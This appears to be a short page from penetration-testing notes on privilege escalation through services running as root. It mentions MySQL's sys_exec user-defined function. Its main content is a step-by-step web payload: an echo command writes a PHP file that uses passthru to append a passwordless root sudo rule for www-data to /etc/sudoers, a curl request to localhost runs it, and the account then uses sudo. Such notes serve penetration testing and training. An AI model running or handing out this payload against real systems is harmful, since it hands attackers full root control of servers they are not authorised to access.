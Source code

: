 ```yaml
---
title: Process Running As Root
parent: Method
layout: default
nav_order: 8
---
```


Can first test using `ps -aux | grep servicename`

## MySQL
sys_exec function with lib_mysqludf_sys.so. Refer to MySQL/MariaDB Method 2

## Web
1. If web service has write access as root, can abuse that by running the following file (change www-data to the web account, usually correct):
   `echo "<?php echo 'hello';passthru('echo \'www-data ALL=(root) NOPASSWD: ALL\' >> /etc/sudoers'); ?>" > tryroot.php`
2. Subsequently run curl -v http://localhost:80/tryroot.php
3. Then sudo as www-data.